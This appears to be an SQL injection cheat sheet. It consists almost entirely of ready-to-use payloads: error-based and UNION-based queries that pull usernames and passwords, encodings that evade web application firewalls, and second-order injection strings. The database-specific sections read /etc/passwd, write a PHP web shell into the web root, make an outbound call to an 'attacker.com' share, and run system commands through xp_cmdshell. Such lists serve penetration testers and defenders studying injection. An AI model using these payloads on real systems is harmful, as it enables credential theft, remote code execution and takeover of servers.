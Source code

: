 ### Error-Based SQL Injection

Exploiting database error messages to extract information.

```sql
' AND ExtractValue(1, CONCAT(0x7e, (SELECT @@version), 0x7e)) -- 
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT password FROM users WHERE user_id=1),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- 
' AND 1=CONVERT(int, (SELECT password FROM users WHERE user_id=1)) -- 
' AND CAST((SELECT password FROM users WHERE user_id=1) AS INTEGER) -- 
```

### UNION-Based Advanced Attacks

```sql
' UNION SELECT NULL,NULL,NULL -- 
' UNION ALL SELECT 1,2,3 -- 
' UNION SELECT NULL,CONCAT(username,':',password),NULL FROM users -- 
' UNION SELECT NULL,SUBSTRING((SELECT password FROM users WHERE user_id=1),1,30),NULL -- 
```

### Bypassing Web Application Firewalls

```sql
' UnIoN SeLeCt 1,2,3 -- 
'UNION%09SELECT%0A1,2,3%0DFROM%0Dusers-- 
'/**/UNION/**/SELECT/**/1,2,3/**/FROM/**/users-- 
' UNION SELECT 1,2,3 FROM users WHERE username=CHAR(97,100,109,105,110) -- 
' UNION SELECT 1,CONCAT('us','er','na','me'),3 FROM users -- 
```

### Second-Order SQL Injection

Attacks where malicious input is stored and executed later.

```sql
admin' -- 
UPDATE users SET password='newpassword' WHERE username='admin' -- ' 
email = 'attacker@example.com', name = 'admin' -- '
```

### Database-Specific Advanced Techniques

**MySQL:**
```sql
' UNION SELECT LOAD_FILE('/etc/passwd'),NULL,NULL -- 
' UNION SELECT '<?php system($_GET["cmd"]); ?>',NULL,NULL INTO OUTFILE '/var/www/html/shell.php' -- 
' UNION SELECT LOAD_FILE('\\\\attacker.com\\share\\'),NULL,NULL -- 
```

**MSSQL:**
```sql
'; EXEC xp_cmdshell 'whoami' -- 
'; EXEC xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Services\lanmanserver\parameters','nullsessionshares' -- 
'; SELECT * FROM OPENQUERY('LINKED_SERVER','SELECT @@version') -- 
```
